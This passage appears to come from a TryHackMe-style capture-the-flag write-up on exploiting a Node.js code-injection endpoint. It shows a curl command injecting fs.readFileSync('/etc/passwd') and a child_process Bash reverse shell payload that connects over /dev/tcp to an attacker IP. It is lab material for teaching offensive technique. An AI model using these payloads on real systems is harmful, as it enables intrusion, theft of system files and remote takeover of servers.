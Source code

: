 ## Node.js RCE Exploitation <a name="nodejs">

We can use different Node.js libraries to perform any task we want. For example - we can use the filesystem library (fs) to read any internal files on the server.

The Node.js one-liner code to read /etc/passwd file would be:

```js
require('fs').readFileSync('/etc/passwd')
```

We can use this code and pass it as a query parameter to the vulnerable endpoint and read the file.

![Reading /etc/passwd](assets/img/posts/glitch-thm/passwd.png)

cURL command - `curl -D - -XPOST "http://10.10.61.92/api/items?cmd=require('fs').readFileSync('/etc/passwd')" --data "cmd=hello"`

**Getting a reverse shell**

We can use a Node.js module "child_process" to execute system commands, the one-liner code for that would be as follows:

```js
require('child_process').execSync("id")
```
We can put in a Bash TCP reverse shell payload to get a stable shell on our machine.

```js
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/10.4.13.51/9000 0>&1"')
```

